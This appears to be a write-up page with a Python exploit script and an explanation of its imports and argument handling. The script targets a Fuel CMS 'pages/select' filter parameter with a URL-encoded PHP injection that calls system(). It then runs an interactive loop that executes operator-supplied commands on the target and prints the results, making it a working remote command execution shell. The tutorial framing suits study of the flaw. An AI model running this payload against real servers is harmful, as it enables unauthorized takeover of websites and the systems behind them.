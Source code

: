 ~~~python
args = get_arguments()
url = args.url 

if "http" not in url:
	sys.stderr.write("Enter vaild url")
	sys.exit()

try:
   r = requests.get(url)
   if r.status_code == 200:
       print(Style.BRIGHT+Fore.GREEN+"[+]Connecting..."+Style.RESET_ALL)


except requests.ConnectionError:
    print(Style.BRIGHT+Fore.RED+"Can't connect to url"+Style.RESET_ALL)
    sys.exit()

while True:
	cmd = input(Style.BRIGHT+Fore.YELLOW+"Enter Command $"+Style.RESET_ALL)
		
	main_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+quote(cmd)+"%27%29%2b%27"

	r = requests.get(main_url)

	#<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">

	output = r.text.split('<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">')
	print(output[0])
	if cmd == "exit":
		break
~~~

---
#### Script Explanation

**Imports**
  - requests: HTTP requests to the target
  - urllib.parse.quote: URL-encodes individual command string inputs to safely inject into the vulnerable query string.
  - argparse: command line parsing
  - sys: allows interaction with Python interpreter and runtime environment. Essential when the script includes CLI arguments, fetches interpreter version, redirects I/O streams, and requires graceful exits.
  - colorama: for a coloured terminal output

**get_arguments Function**
Checks if the user input is valid, with a url value and argument length less than 3, then parses and returns the input as an args object. Ensures the user is providing the target URL using the _-u_ flag.
